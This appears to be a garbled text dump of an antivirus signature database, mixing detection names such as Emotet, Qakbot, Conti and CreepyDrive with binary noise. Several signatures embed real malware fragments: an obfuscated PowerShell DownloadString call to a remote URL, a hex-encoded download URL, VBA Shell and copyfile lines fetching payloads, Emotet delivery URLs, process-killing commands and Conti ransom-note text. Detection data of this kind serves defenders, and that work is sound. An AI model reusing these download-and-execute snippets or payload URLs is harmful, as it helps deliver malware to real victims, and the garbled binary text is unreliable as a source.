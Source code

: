  |´(new-'+'obje'+'ctne'+'t.we'+'bcli'+'ent)'|p;$mv=[microsoft.visualbasic.interaction]::callbyname($tty,'down'+'load'+'str'+'ing',[microsoft.visualbasic.calltype]::method,'http'+'://akmokykla.lt/m12.jpg..TrojanDownloader:O97M/Emotet.ERR!MTB.¬!Tnega.NE!MTB.¬!Tnega.NM!MTB.¬!Tnega.NW!MTB.¬!WinLNK.PA!MTB.Trojan:Win64/Emotet.PBJ!MTB.....2...v(±.x;..	/>Á
½...º2Ì.-ü¶¸Ó"*÷ë.ÓÁú..ÂÁè..Ð.ÃkÒ...+ÂH...HcÈH....¶.A2<....¯.Keylogger.PA3!MTB.....3...ßé.]xo...6¦Ë®Y·.[...ë.6«ª«Õ.https://discord.gg/udrhm3hyhmh.t.t.p.s.:././.d.i.s.c.o.r.d...g.g./.u.d.r.h.m.3.h.y.h.m.select * from botnet.help;s.e.l.e.c.t. .*. .f.r.o.m. .b.o.t.n.e.t...h.e.l.p.;.¬!SpyNoon.SZSS!MTB..!Nemucod.PAAG.....5...F¹×û)...k=ð.Ô.(..±¢M.³¥..n.²(replace("68@74@74@70@3a@2f@2f@31@33@2e@31@31@34@2e@39@2e@34@32@2f@47@48@32@2e@6a@70@67","@",""))endfunctionfunction..TrojanDownloader:O97M/Obfuse.SNS!MTB.....6...FÿbM.ë..<Ñ.Ý.õÌ;.û.ßàÁòPxýÜ= GetObject(kULLIlullikhao).copyfile lorakala, wingadumleviosa, True= "C:\\ProgramData\\ddond.com https://taxfile.mediafire.com/" + "file/87j3bj0ks0asu58/3.htm/file"Call VBA.Shell#(kalimuth)TrojanDownloader:O97M/Emotet.AWT!MTB.....7....æ
.ç­...u.z
.x«.íÍªA¦ïQ..ÞKMHSTR:Emotet.AWT!MTB.#ATTR_00005d51.#ATTR_00005d52.#ATTR_00005d53.#ATTR_00005d54.#ATTR_00005d55...AgentTesla.ETA!MTB.....8...ò.Èx....Ù¸Ù)fß1.JÏ ¾´UÄýöá.d.s.a.f.d.a.s.d.f.F.D.S.A.F.A.D.S.F.A.S.¤á|:90ÌÔØ<­ïVÊ³.ëUç.BºMF..è"Ä.k..2..3U.âJ3.ÞaG?TrojanDownloader:O97M/Qakbot.RVAG!MTB.....:...Ù:.çI..ÚgÑ.¬Q¢.ä.^..÷ ±D÷.SCPT:TrojanDownloader:O97M/Qakbot.RVAG01!MTB.¬!RelineStealer.VA!MTB.....;...OpNNx4..ÆI&.1..ä_Öx¥G ..ø©Õ³.g..¿.....÷ÙÒÉ.î.....3Ë..Òä..3Ã÷ÐHõ¬¡Mirai.A!xg.¬¡Agent.A!xg.HackTool:PowerShell/CreepyPersist.A.....?...?Kxòç<..aX#-²®.,)øj°..sÄ¹×ðè#ATTR_00005d56.SCPT:CreepyPersist.A.Trojan:PowerShell/CreepyDrive.D!dha.....@...U.yëç:..vá..ÖÅù.¹Zò..ê¡ù.B¼}#ATTR_00005d57.SCPT:CreepyDrive.D.Trojan:PowerShell/CreepyDrive.E!dha.....A...1(Æ©ç:...ýº.¦ð.'oÈ®ç±".%^ÖGþ#ATTR_00005d58.SCPT:CreepyDrive.E.Backdoor:PowerShell/CreepySnail.B!dha.....B...Ôý
Sç:..i;©ãÀî¶.ï¢bÃ¨..Æ.ýF(#ATTR_00005d59.SCPT:CreepySnail.B.Exploit:O97M/CVE-2017-11882.SZTA!MTB.....C...\å.þ(...Þ¬.¦çNe..t.\5ä&.È......C...#M.a(.....kO@ëy..SW²..¢5ØCìÂ. ..C...Þ	..(...|.Ú.É(=õÒ×a..A<%WÿHm.0..C...ªrÚü(...ØÍtÑ¦EÒ..IÄÇW.YOYÅp..@..C...¿¥Ã!(...'éJSP9¾.äFÇ]..}/`±.ï.P..C...¬.vÑ(...ë×.!À0.a...Gák&¡EX4-¯.CreepyRing.A!dha.....D....Ç·cxÛ...e...LÞÕ+.Îön°îVåÈ.f.t.p.:././.4.1.4.1.5...1.3.1.4.1.7...1.1.4.1.4.8...7.:.2.1.2.1.R.o.#.$.%.$.#.F.C.3.#.$.%.$.#.@.R.A.#.$.%.$.#.K.Z.O.#.$.%.$.#.R.d.#.$.%.$.#.A.c.#.$.%.$.#.k.t.#.$.%.$.#.Y.5.#.$.%.$.#.6.#.#.$.%.$.#.2.¯.CreepyBox.C!dha.....E...N´I.@e..ûëoÌ1eÑÉ..(£	[..oÓ..¯.CreepyWink.B!dha.....F...[.Ô.@...à¼b.åYg.ãÛÙ`d~?.÷.Ø.¯.CreepyRing.B!dha.....G...ÚþlÃ@...-/¾6ÿ¿.Ïì.ÇáÞ.kõ=Âw.Trojan:HTML/Phish.PAEI!MTB.....H...V|©Àçp....2.àM`Úà.Cõ­ú.ÉØ.{º#ATTR_00005d5a.SCPT:Trojan:HTML/Phish.PAEI1.#ATTR_00005d5b.SCPT:Trojan:HTML/Phish.PAEI2.#ATTR_00005d5c.SCPT:Trojan:HTML/Phish.PAEH1.TrojanDownloader:O97M/Emotet.ALY!MTB..ð..I...DªBæ.S..¶cÅ0\2I«!.E]...ÆD.éÏ\soam1.dll\soam2.dll\soam3.dllTrojanDownloader:O97M/Obfuse.RSV!MTB.....J...Trojan:PowerShell/Shellcode.SV!MTB.....K....aÿ.x...hqe.ï?þÏ..8Ë2ÌZ.Ê~u.e.v.c.a.t._.r.u.n...b.a.t.t.a.s.k.k.i.l.l...e.x.e. ./.f. ./.t. ./.i.m. .t.m._.s.e.n.d._.e.v.c.a.t.3...e.x.e.t.a.s.k.k.i.l.l...e.x.e. ./.f. ./.t. ./.i.m. .E.V.-.C.A.T.-.K.I.O.S.K.2...e.x.e.t.a.s.k.k.i.l.l...e.x.e. ./.f. ./.t. ./.i.m. .e.v.c.a.t._.e.n.d...e.x.e.t.a.s.k.k.i.l.l...e.x.e. ./.f. ./.t. ./.i.m. .E.n.d.P.r.o.c.e.s.s...e.x.e.E.V.-.C.A.T.-.K.I.O.S.K.3...e.x.e.Ransom:Linux/Conti.A.....L...ÇL.è.Ö...¸öØÈ¥.~`,I.£ñ¯..DÕ.miiccakcagea9fa3uvmssbv0pwu9fvync8zxhbe5madaj59deeccacbagy5t--vmkiller--prockillerparemeter --size cannot be %dall of your files are currently encrypted by conti strainH..hÿÿÿH.H.Hº×£p=
×£H.ÈH÷êH..
H.ÂHÁú.H.ÈHÁø?H.ÑH)ÁH.ÈH.ÀH.E¨H..hÿÿÿH.H.Hº×£p=
×£H.ÈH÷êH..
H.ÂHÁú.H.ÈHÁø?H)ÂH.ÐHÁà.H.ÐH.ÀH.E°é®...H..hÿÿÿH.H.Hº×£p=
×£H.ÈH÷êH..
H.ÂHÁú.H.ÈHÁø?H)ÂH.ÐHÁà.H.ÐH.ÀH.E¨H..hÿÿÿH.H.Hº×£p=
×£H.ÈH÷êH..
H.ÂHÁú.H.ÈHÁø?H)ÂH.ÐHÁà.H.ÐH.ÀH.E°ë
.AObfuse.SM!MTB.TrojanDownloader:O97M/Emotet.QPSM!MTB.....N...I.2..½..{Ñ1Ù¦ªeenµ¦.@.-.Ü+`6neoexc.com/cgi-bin/gOTeFmMuXhfsGqDl/mythicpeak.com/wp-includes/zGWQ9q3QsWU/demo-re-usables.inertiasoft.net/cgi-bin/z1CD/muhsinsirim.com/cgi-bin/Vt2umvq3ufyBZZWR2HZ/TrojanDownloader:PowerShell/LNKLoad!MSR.­.DefenseEvasion!MSR.Behavior:Linux/CVE-2022-22954.A.....Q....÷TC³2...w.ÊÖËGN. .·O..z..3Yåy¹....................ûlÅB.}.®½Ï½.u.É Exploit:PDF/CVE-2017-11882.PK!MTB.Trojan:Win64/Emotet.MB!MTB.....S...\.)£xT..Îà.!..h+ÒëàKítÖßD¼Ñ.÷ëÁú....ÂÁè..Ð.ÃkÒ...+ÂH.....HcÈH..Dý....A2>....Trojan:Win64/Emotet.DA!MTB.....T...¼.u.xP...ö.c$à.3Â×Hr.$þ{V Æg÷ù.ÂH.H.
....¶....$...3È.ÁHc.$...H..$.....